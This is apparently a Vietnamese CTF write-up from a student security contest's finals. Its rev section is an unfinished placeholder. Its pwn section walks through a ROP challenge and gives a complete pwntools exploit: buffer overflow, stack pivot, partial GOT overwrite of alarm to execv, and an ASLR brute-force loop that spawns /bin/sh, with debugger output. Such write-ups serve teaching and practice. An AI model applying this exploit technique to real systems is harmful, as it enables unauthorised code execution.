




Sinh viên với An toàn Thông tin là cuộc thi CTF danh giá nhất cho sinh viên ở Việt Nam. Hằng năm, cuộc thi được tổ chức 3 vòng: khởi động, sơ khảo và chung khảo. Dưới đây là bài giải cho một số challenge pwnable và reversing ở các vòng thi của mình.  

Theo ý kiến cá nhân, các bài reversing thường khá khó và tốn nhiều công sức để phân tích nhưng rất thú vị. Ngược lại, các bài pwnable thì không quá mới lạ khi chỉ xoay quanh các bug cơ bản như Buffer Overflow, Format String Bug hay Use After Free, ...  

<!--more-->

<style>
img {
    box-shadow: rgba(0, 0, 0, 0.35) 0px 5px 15px;
    border-radius: 6px;
    display: block; 
    margin: 15px auto;
}
</style>

## rev/Trust Me!


[Updating]

## pwn/ROP



### 0x00. Overview

Kiểm tra thông tin của binary và các lớp bảo vệ.

```shell
➜  pwn-ROP file chall
chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=408b0fc1dee8dad901b33ff68c1e8179fef5bc89, not stripped

gef➤  checksec
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

Đề bài cho một binary 64 bit, đã tắt canary và có thể ghi được GOT (Global Offset Table). 

Bên cạnh đó, đề bài còn cung cấp Dockerfile, mình sẽ build docker để lấy libc, ld trong docker trước. Ý tưởng đầu tiên của mình là sử dụng kỹ thuật **ret2libc**. 

```shell
➜  pwn-ROP docker build . -t rop
➜  pwn-ROP docker run -p 5000:5000 --privileged -it rop
➜  pwn-ROP docker cp ee13afb344e4:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 .
➜  pwn-ROP docker cp ee13afb344e4:/srv/usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 .
```
<br />

Dễ dàng thấy có bug Buffer Overflow trong hàm `vuln()`. Đặc biệt hơn khi không có bất cứ hàm nào in ra được output ngoài màn hình. Vì vậy kỹ thuật **ret2libc** nêu trên không thể sử dụng được. Kết hợp với việc GOT ghi đè được, mình có thể dùng kỹ thuật **ret2dlresolve** để giải hoặc stack pivot nhằm overwrite bảng GOT của `alarm()` thành `execv()`.  


Tại sao sử dụng `execv()` mà không phải `execve()` như thông thường? 

Do `execv()` yêu cầu tới tận 3 tham số, trong khi đó mình không thấy bất cứ gadget nào có thể thay đổi được giá trị thanh ghi `rdx`. Vì vậy mình đã sử dụng `execv()` với yêu cầu là 2 tham số và các giá trị `rdi`, `rsi` hoàn toàn kiểm soát được.  



### 0x01. Stack Pivot 

Stack Pivot là một kỹ thuật đưa địa chỉ stack từ một số ngẫu nhiên do cơ chế [ASLR](https://en.wikipedia.org/wiki/Address_space_layout_randomization) thành địa chỉ tĩnh của binary nhằm thuận tiện cho việc xây dựng các ROP chain.

Để sử dụng kỹ thuật này, đoạn assembly code thường được sử dụng là 

```assembly
leave
retn
```

Đây chính là đoạn code mình sử dụng để thực thi stack pivot có địa chỉ **0x401249**.

```assembly
.text:0000000000401249 lea     rax, [rbp+buf]
.text:000000000040124D mov     edx, 48h ; 'H'  ; nbytes
.text:0000000000401252 mov     rsi, rax        ; buf
.text:0000000000401255 mov     edi, 0          ; fd
.text:000000000040125A call    _read
.text:000000000040125F nop
.text:0000000000401260 leave
.text:0000000000401261 retn
```

Nếu đoạn code trên được gọi, mình sẽ làm được:
- Ghi được dữ liệu vào `rbp - 0x20`
- New RBP = [RBP]
- New RIP = [RBP + 8]

<br/>

Trước tiên, cần phải tính toán offset để ghi đè Saved RIP. Mảng `buf` nằm ở `[rbp - 0x20]` &rarr; ta cần 32 bytes để ghi đè nó. Mình sẽ thử viết 1 POC để trigger lỗi xem new RBP và new RIP sẽ có giá trị như nào. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

p = process(exe.path)   

payload = flat(
    b'A' * 0x20, 
    0xdeedbeef,         # New RBP 
    b'B' * 8            # New RIP 
)

p.send(payload)

p.interactive()
```

Kết quả thu được như mình mong muốn, new RBP = 0xdeedbeef và new RIP = BBBBBBBB

```shell
$rax   : 0x30
$rbx   : 0x0
$rcx   : 0x00001555553fd7e2  →  0x5677fffff0003d48 ("H="?)
$rdx   : 0x48
$rsp   : 0x00007fffffffdfe8  →  0x4242424242424242 ("BBBBBBBB"?)
$rbp   : 0xdeedbeef
$rsi   : 0x00007fffffffdfc0  →  0x4141414141414141 ("AAAAAAAA"?)
$rdi   : 0x0
$rip   : 0x0000000000401261  →  <vuln+002d> ret
$r8    : 0x00007fffffffdf30  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x00001555552ef5e8  →  0x000f001200001a64
$r11   : 0x246
$r12   : 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
$r13   : 0x0000000000401262  →  <main+0000> endbr64
$r14   : 0x0000000000403e18  →  0x0000000000401180  →  <__do_global_dtors_aux+0000> endbr64
$r15   : 0x0000155555554040  →  0x00001555555552e0  →  0x0000000000000000
$eflags: [zero CARRY PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
─────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdfe8│+0x0000: 0x4242424242424242   ← $rsp
0x00007fffffffdff0│+0x0008: 0x0000000000000001
0x00007fffffffdff8│+0x0010: 0x0000155555312d90  →  0xe80001b859e8c789
0x00007fffffffe000│+0x0018: 0x0000000000000000
0x00007fffffffe008│+0x0020: 0x0000000000401262  →  <main+0000> endbr64
0x00007fffffffe010│+0x0028: 0x00000001ffffe0f0
0x00007fffffffe018│+0x0030: 0x00007fffffffe108  →  0x00007fffffffe37e  →  "/home/ducdatdau/ctfs/2024/ascis_final/pwn-ROP/chal[...]"
0x00007fffffffe020│+0x0038: 0x0000000000000000
───────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40125a <vuln+0026>      call   0x4010a0 <read@plt>
     0x40125f <vuln+002b>      nop
     0x401260 <vuln+002c>      leave
●→   0x401261 <vuln+002d>      ret
[!] Cannot disassemble from $PC
───────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall_patched", stopped 0x401261 in vuln (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401261 → vuln()
──────────────────────────────────────────────────────────────────────────────────────────────────────────────
```

### 0x02. Build payload

Các công việc mình cần phải xử lý bây giờ là: 
1. Overwrite 2 bytes cuối cùng của GOT `alarm()` thành `execv()`. \
Do cùng phiên bản libc nên 12 bits cuối của các hàm libc luôn giữ nguyên. Ví dụ alarm = 0x1555553d3540 thì `540` luôn được giữ nguyên, overwrite 2 bytes cuối làm thay đổi giá trị `3`. Lúc này sẽ cần bruteforce để tìm chính xác địa chỉ, xác suất thành công là **1/16 = 6.25%**.
2. Ghi chuỗi `/bin/sh\x00` lên bộ nhớ. 
3. [RSI] = 0, trong đó RSI là một địa chỉ hợp lệ.

**1. Overwrite 2 bytes GOT `alarm()`**

Để overwrite, RBP - 0x20 = 0x404020 &rarr; RBP = 0x404040. 



Sau khi ghi được 2 bytes cuối, [RBP] = [0x404040] = 0, dẫn tới việc không thể tiếp tục ghi được các giá trị khác vào bộ nhớ nữa. 

Mình xây dựng lại cấu trúc bộ nhớ như sau, trong đó [0x404040] tiếp tục được trỏ tới 1 vùng nhớ không có dữ liệu ở phía dưới để phục vụ cho công việc [RSI] = 0, đồng thời 12 bits cuối cùng của `alarm@got` cũng bị overwrite. 



```python
pop_rdi = 0x401247
pop_rbp = 0x40119d
ret = 0x40101a
alarm_got = 0x404020

payload = flat(
    b'A' * 0x20, 
    alarm_got + 0x40, 
    0x401249
)

input('input 1: stack pivot')
p.send(payload)

payload = flat(
    alarm_got + 0x100, 
    0x401249,
    b'B' * 0x10,
    alarm_got + 0x20, 
    0x401249
)

input('input 2: stack pivot new area')
p.send(payload)

input('input 3: change 2 bytes')
p.send(b'\xc0\x41')

```

Kết quả thu được như mình mong muốn, 2 bytes cuối của `alarm@got` bị ghi thành `/x41/xc0`, RBP = 0x404120. 

```shell
gef➤  x/gx 0x404020
0x404020 <alarm@got.plt>:       0x00001555553d41c0
gef➤  x/gx $rbp
0x404120:       0x0000000000000000
```

<br/>

**2. Write `/bin/sh\x00` and seup [RSI] = 0**

Công việc cuối cùng là viết `/bin/sh\x00`, setup cho RSI = 0 và xây ROP chain để gọi `execv`. Memory layout được mình thiết kế như sau



Payload hoạt động nhưng phải bật option NOASLR. Quay lại vấn đề bruteforce, mình sẽ bỏ script trong vòng `While` để liên tục bruteforce đến khi nào có đúng địa chỉ `execv`. 

```python
#!/usr/bin/env python3
from pwn import *
import time

exe = ELF('./chall_patched', checksec=False)
libc = ELF('./libc.so.6', checksec=False)
ld = ELF('./ld-linux-x86-64.so.2', checksec=False)

context.update(arch='amd64', os='linux', log_level='debug', terminal='cmd.exe /c start wsl'.split(), binary=exe)

while True:
    def GDB(): 
        gdb.attach(p, gdbscript='''
            b *0x401261
            continue
        ''')

        pause()

    # GDB()

    p = process(exe.path)   

    pop_rdi = 0x401247
    pop_rbp = 0x40119d
    ret = 0x40101a
    alarm_got = 0x404020

    payload = flat(
        b'A' * 0x20, 
        alarm_got + 0x40, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 1: stack pivot')
    p.send(payload)

    payload = flat(
        alarm_got + 0x100, 
        0x401249,
        b'B' * 0x10,
        alarm_got + 0x20, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 2: stack pivot new area')
    p.send(payload)

    log.info('input 3: change 2 bytes')
    p.send(b'\xc0\x41')

    # payload = flat(
    #     b'/bin/sh\x00', 
    #     pop_rdi, 
    #     alarm_got + 0xe0, 
    #     exe.plt['alarm'],
    #     alarm_got + 0xe0, 
    #     0x401249
    # )

    payload = flat(
        0,
        b'/bin/sh\x00',
        b'C' * 0x10, 
        0xdeedbeef, 
        pop_rdi, 
        alarm_got + 0xe8, 
        exe.plt['alarm']
    )

    time.sleep(0.1)
    log.info('input 4: write /bin/sh')
    p.send(payload)

    try:
        time.sleep(0.1)
        log.info('input 5: getshell')
        p.send(b'\x00')

        time.sleep(0.1)
        p.sendline(b'echo PWNED')
        p.recvuntil(b'PWNED')
        
        break
    except EOFError:
        p.close()

p.interactive()
```